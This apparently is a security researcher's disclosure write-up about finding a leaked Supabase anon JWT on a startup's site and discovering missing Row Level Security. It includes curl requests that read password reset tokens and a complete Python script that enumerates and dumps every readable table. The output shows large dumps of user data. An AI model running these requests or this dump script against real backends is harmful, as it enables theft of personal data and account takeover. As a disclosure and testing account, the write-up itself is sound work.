




## Table of Contents

1. [Introduction](#introduction)
2. [Discovering the Target](#discovering-the-target)
3. [Testing with rep+](#testing-with-rep)
   - [Client-side Secret Detection](#client-side-secret-detection)
   - [JWT Discovery](#jwt-discovery)
4. [Exploring Supabase Endpoints](#exploring-supabase-endpoints)
5. [Validating Row Level Security](#validating-row-level-security)
   - [Password Reset Tokens](#password-reset-tokens)
   - [Scale of Exposure](#scale-of-exposure)
6. [Safe Proof-of-Concept](#safe-proof-of-concept)
7. [Responsible Disclosure](#responsible-disclosure)
8. [Why rep+ is Valuable](#why-rep-is-valuable)
9. [Getting rep+](#getting-rep)
10. [References](#references)

> **TL;DR**  
> I opened a website, ran [**rep+**](https://github.com/repplus/rep/), found a leaked Supabase anon [JWT](https://datatracker.ietf.org/doc/html/rfc7519), checked RLS, and accidentally got read access to password reset tokens.  
> Yes, that means **full account takeover**.  
> No, I did not exploit it.  
> Yes, this could have been very bad.

## Introduction

I was exploring [**trustmrr**](https://trustmrr.com), a website built by [Marc Lou:𝕏](https://x.com/marclou) to help verify whether founders are being honest about their MRR or inflating their numbers. Marc also added a feature that allows founders to list their startups for sale.

While browsing those listings, I came across a website claiming to generate **$10k+ in MRR**, with the owner asking for **$100k+**. Out of curiosity, I decided to take a closer look and see whether **rep+** could surface anything interesting.

---

## Discovering the Target

Recently, I added [**Kingfisher**](https://github.com/mongodb/kingfisher/) support to [rep+](https://github.com/repplus/rep/) (huge thanks to [Mick Grove:𝕏](https://x.com/micksmix0)). Kingfisher's secret-detection rules allow [rep+](https://github.com/repplus/rep/) to scan loaded JavaScript files for sensitive information efficiently. Before merging the [pull request](https://github.com/repplus/rep/pull/58) into `main`, I was testing the feature in a real-world scenario, and that is exactly how I stumbled upon this issue.

---

## Testing with rep+

[rep+](https://github.com/repplus/rep/) is designed to be lightweight and frictionless for pentesters and security engineers. Instead of firing up a heavy proxy, you simply right-click, inspect the element, and start interacting with requests directly in the browser. With [rep+](https://github.com/repplus/rep/), you can:

- block requests
- forward requests one by one
- forward all requests
- manipulate requests manually
- bulk replay requests
- diff responses to quickly spot behavioral changes

On top of that, rep+ adds **AI-assisted workflows** to speed up analysis:

- explain requests and responses in plain English
- highlight suspicious patterns and risky behavior
- suggest potential attack vectors based on request/response context
- help reason about impact without manual deep-diving

I will not go through all the features here, as there are quite a few. Feel free to explore the [GitHub repository](https://github.com/repplus/rep/) or follow me on [𝕏](https://x.com/BourAbdelhadi) to learn more about what rep+ can do.

---

### Client-side Secret Detection

One of the features I rely on most is **client-side secret detection**. While testing the [Kingfisher](https://github.com/repplus/rep/pull/58) integration, I used [rep+](https://github.com/repplus/rep/) to scan all loaded JavaScript files and flag anything that might expose sensitive information.

---

### JWT Discovery

Opening the site in my browser and launching [rep+](https://github.com/repplus/rep/) immediately flagged a [**JWT token**](https://datatracker.ietf.org/doc/html/rfc7519) embedded directly in the site’s JavaScript.



From the screenshot above, you can click on the JavaScript file hyperlink to jump directly to the source file. Alternatively, you can use the [rep+](https://github.com/repplus/rep/) search bar, which searches across **all URLs, headers, and bodies** for both requests and responses.



Looking at the JavaScript output, it was clear that the token was a [**Supabase JWT**](https://supabase.com/docs/guides/auth/jwts). Without using any external website or tool, I highlighted the token inside [rep+](https://github.com/repplus/rep/) and clicked **JWT decode** to inspect its contents.



[rep+](https://github.com/repplus/rep/) decoded the token instantly and displayed the claims inline.



The [JWT](https://datatracker.ietf.org/doc/html/rfc7519) was an **anonymous (anon) Supabase token**, which is typically intended to be publicly exposed. At this point, my goal was not exploitation, but to verify whether [**Row Level Security (RLS)**](https://supabase.com/docs/guides/database/postgres/row-level-security) was correctly enforced on the backend.

---

## Exploring Supabase Endpoints

The very first thing I tested with the token was **endpoint enumeration**. Using the [JWT](https://datatracker.ietf.org/doc/html/rfc7519), I attempted to list the available REST endpoints exposed by [Supabase](https://supabase.com/), effectively enumerating the tables and RPC functions that the backend made accessible to this token.

```bash
⚡ curl -s \
  https://████████████████.supabase.co/rest/v1/ \
  -H "apikey: ████████████████ " \
  -H "Authorization: Bearer ████████████████ " | jq -r '.paths | keys[]'
```

The response returned a surprisingly large surface area:

```plaintext
/
/admi███████rs
/a███████rs
/ap███████les
/a███████rs
/a█████s
/co████████ts
/con███████yp██s
/cu███████ains
/f███████
/in███████tions
/l███████es
/l██████s
/mod███████nts
/mo███████ts
/mo█████les
/not███████ries
/n███████ns
/of███████es
/password_reset_tokens
/p█████ns
/pos███████kes
/p███████
/p█████████ct███████_ids
/p███████es
/products
/re███████ypes
/rpc/cl███████d_files
/rpc/cre███████ink_column
/rpc/de███████likes
/rpc/███████st_likes
/rpc/s███████ant_access
/rpc/v███████uct_access
/s███████osts
/su███████eriods
/su███████ons
/syst███████gs
/tr███████ns
/user_███████orts
/user_███████_access
/user███████ge
```

At this stage, the output alone did not confirm a vulnerability. Enumeration by itself is not exploitation. However, it immediately raised an important question:

> Are these tables and RPC endpoints properly protected by Row Level Security?

## Validating Row Level Security

From here, the focus shifted to validating whether [RLS](https://supabase.com/docs/guides/database/postgres/row-level-security) was consistently enforced and whether this anonymous token could access or manipulate data it should not.

## Password Reset Tokens

One of the tables that immediately stood out during enumeration was **`password_reset_tokens`**. If an anonymous token can read from this table, it can potentially be used to take over user accounts.

The next step was straightforward. I tried to see whether the anon [JWT](https://datatracker.ietf.org/doc/html/rfc7519) had read access to that table.

I sent the following request using the same token:

```bash
curl -i \
  https://████████████████.supabase.co/rest/v1/password_reset_tokens?limit=1 \
  -H "apikey: ████████████████" \
  -H "Authorization: Bearer ████████████████"
```

The response came back with an HTTP 200.

```json
[
  {
    "id": "3e███2c-6██e-4██5-8██b-f24███4██",
    "email": "████████████████@gmail.com",
    "token": "███████████████████████████97d5█████5459███7ef7███1",
    "created_at": "2025-05-05T18:04:57.013+00:00",
    "expires_at": "2025-05-06T18:04:57.013+00:00",
    "used": false
  }
]
```

At this point, the impact was clear.

The anonymous Supabase [JWT](https://datatracker.ietf.org/doc/html/rfc7519) was able to read password reset tokens, including the email address and the raw reset token itself. With access to this data, it would be possible to complete a password reset flow and take over user accounts.

This confirmed that [Row Level Security](https://supabase.com/docs/guides/database/postgres/row-level-security) was not properly enforced on this table.

## Scale of Exposure

To get a sense of the scale of the exposure, I counted the number of password reset tokens available to this token:

```bash
🗂  ~/Desktop - ⬢ v22.18.0
⚡ jq ████████████████
272
```

That number alone was enough to confirm the severity of the issue. However, it also raised a more important question:

> Was this an isolated failure on a single table, or a systemic authorization problem?

Manually querying tables one by one does not scale, and it leaves too much room for human error. To answer that question confidently, I decided to automate the process.

Using the same anonymous Supabase JWT, I wrote a small [Python script](https://github.com/bscript/superbase-exposure-check) to:

- enumerate all REST‑exposed tables
- test whether each table was readable
- safely dump readable data as JSON (read‑only)

```bash
export SUPABASE_URL=https://xxxx.supabase.co
export SUPABASE_APIKEY=ANON_KEY
export SUPABASE_JWT=JWT_TOKEN
```

```python
import requests
import argparse
import os
import json
from typing import List

PAGE_SIZE = 1000  # safe, explicit

def parse_args():
    parser = argparse.ArgumentParser(
        description="Enumerate and dump readable Supabase tables using an anon JWT (read-only)."
    )
    parser.add_argument("--url", help="Supabase project URL (https://xxxx.supabase.co)")
    parser.add_argument("--apikey", help="Supabase anon API key")
    parser.add_argument("--jwt", help="JWT token (Bearer)")
    parser.add_argument("--out", default="dump", help="Output directory")
    parser.add_argument("--page-size", type=int, default=PAGE_SIZE)
    return parser.parse_args()

def get_config(args):
    url = args.url or os.getenv("SUPABASE_URL")
    apikey = args.apikey or os.getenv("SUPABASE_APIKEY")
    jwt = args.jwt or os.getenv("SUPABASE_JWT")

    if not all([url, apikey, jwt]):
        raise SystemExit(
            "Missing configuration. Provide --url, --apikey, --jwt "
            "or set SUPABASE_URL, SUPABASE_APIKEY, SUPABASE_JWT"
        )

    return url.rstrip("/"), apikey, jwt

def get_paths(base_url, headers) -> List[str]:
    r = requests.get(f"{base_url}/rest/v1/", headers=headers, timeout=10)
    r.raise_for_status()

    return [
        p.strip("/")
        for p in r.json().get("paths", {}).keys()
        if not p.startswith("/rpc") and p != "/"
    ]

def dump_table(base_url, table, headers, page_size):
    all_rows = []
    offset = 0

    while True:
        url = f"{base_url}/rest/v1/{table}?limit={page_size}&offset={offset}"
        r = requests.get(url, headers=headers, timeout=10)

        if r.status_code != 200:
            return None, r.status_code

        chunk = r.json()
        all_rows.extend(chunk)

        if len(chunk) < page_size:
            break

        offset += page_size

    return all_rows, 200

def main():
    args = parse_args()
    base_url, apikey, jwt = get_config(args)

    headers = {
        "apikey": apikey,
        "Authorization": f"Bearer {jwt}",
    }

    os.makedirs(args.out, exist_ok=True)

    print("[*] Enumerating exposed tables...")
    tables = get_paths(base_url, headers)

    print(f"[+] Found {len(tables)} tables\n")

    summary = []

    for table in tables:
        print(f"[*] Dumping table: {table}")
        rows, status = dump_table(base_url, table, headers, args.page_size)

        if status == 200 and rows is not None:
            path = os.path.join(args.out, f"{table}.json")
            with open(path, "w") as f:
                json.dump(rows, f, indent=2)

            print(f"    [+] Dumped {len(rows)} rows → {path}")
            summary.append({
                "table": table,
                "readable": True,
                "rows": len(rows),
                "file": path,
            })
        else:
            print(f"    [-] Blocked (HTTP {status})")
            summary.append({
                "table": table,
                "readable": False,
                "status_code": status,
            })

    with open(os.path.join(args.out, "_summary.json"), "w") as f:
        json.dump(summary, f, indent=2)

    print("\n[+] Done. Summary written to dump/_summary.json")

if __name__ == "__main__":
    main()
```

The goal was not exploitation, but validation. I wanted to understand whether [Row Level Security](https://supabase.com/docs/guides/database/postgres/row-level-security) was consistently enforced across the backend, or whether the issue extended beyond password reset tokens.

Running the script quickly made the answer clear.

```plaintext
🗂  ~/Desktop/superbase-exposure-check - ⬢ v22.18.0
⚡ python3 supabase-exposure-check.py
[*] Enumerating exposed tables...
[+] Found 34 tables

[*] Dumping table: m█████████s
    [+] Dumped 38180 rows → dump/m█████████s.json
[*] Dumping table: a██s
    [+] Dumped 2168 rows → dump/a██s.json
[*] Dumping table: s██e██ed_██sts
    [+] Dumped 792 rows → dump/s██e██ed_██sts.json
[*] Dumping table: i████tions
    [+] Dumped 0 rows → dump/i████tions.json
[*] Dumping table: product_██ases
    [+] Dumped 9938 rows → dump/product_██ases.json
[*] Dumping table: us██_age
    [+] Dumped 0 rows → dump/us██_age.json
[*] Dumping table: user_████s██_access
...
```

Rather than being limited to a single misconfigured table, multiple tables were accessible using the anonymous token. This confirmed a systemic [Row Level Security](https://supabase.com/docs/guides/database/postgres/row-level-security) failure, not an isolated edge case. Several of the exposed tables contained highly sensitive PII, including **plaintext, non-hashed passwords**, which significantly elevated the overall risk and impact.

## Safe Proof-of-Concept

The next step was to confirm that I was not imagining things and that this really worked. To do so, I decided to safely test the flow with a controlled account I created. The process is simple: you need to know the password reset path and where to place the token.

After creating a test account and requesting a password reset, I obtained the reset link:

```plaintext
https://████████████████/reset-password?token=<token>
```

This confirmed that the flow worked as expected. With the token in the URL, the reset page accepted it and allowed changing the password. At this point, it was clear that the **anonymous [JWT](https://datatracker.ietf.org/doc/html/rfc7519) had the ability to access password reset tokens and perform actions that should have been restricted**.

I could have continued digging and increased the impact further. With the level of access available, there were several other paths worth exploring.

I decided to stop here.

The goal was never exploitation. The issue was already clear, reproducible, and severe enough to demonstrate a full account takeover risk. Going any further would not have added meaningful value.

## Responsible Disclosure

I documented the findings and reported the issue to the site owner with clear reproduction steps, impact, and remediation guidance.

This was a strong reminder that even tokens intended to be public, like Supabase anonymous [JWTs](https://datatracker.ietf.org/doc/html/rfc7519), can become extremely dangerous when authorization controls such as Row Level Security are misconfigured.

---

## Why rep+ is Valuable

Finally, this case perfectly demonstrates why tools like [**rep+**](https://github.com/repplus/rep/) are so valuable. It allowed me to quickly detect sensitive information, test the flow safely, and understand the security impact without relying on external tools.

## Getting rep+

If you are interested in exploring [**rep+**](https://github.com/repplus/rep/) yourself, you can:

- Install the Chrome extension: [rep+ on Chrome Web Store](https://chromewebstore.google.com/detail/rep+/dhildnnjbegaggknfkagdpnballiepfm)
- Check out the GitHub repository: [https://github.com/repplus/rep](https://github.com/repplus/rep)

I share daily updates about shipping new features and improvements in [**rep+**](https://github.com/repplus/rep/) publicly on [𝕏](https://x.com/BourAbdelhadi), so feel free to follow me for the latest news.

If you like the project and want to support its development, consider [joining the 11 sponsors](https://github.com/sponsors/bscript) who are already backing it. Your support helps keep the project growing and allows me to continue building powerful security tools for the community.

## References

1. <a id="ref-1"></a>[Supabase API Keys – anon vs service role](https://supabase.com/docs/guides/api/api-keys)
2. <a id="ref-2"></a>[PostgreSQL Documentation – Row Level Security](https://www.postgresql.org/docs/current/ddl-rowsecurity.html)
3. <a id="ref-3"></a>[Supabase – Row Level Security Common Pitfalls](https://supabase.com/docs/guides/database/postgres/row-level-security#common-pitfalls)
4. <a id="ref-4"></a>[Account Takeover](https://www.cloudflare.com/learning/access-management/account-takeover)
5. <a id="ref-5"></a>[supabase-exposure-check – Automated RLS Exposure Validation Script](https://github.com/bscript/superbase-exposure-check)
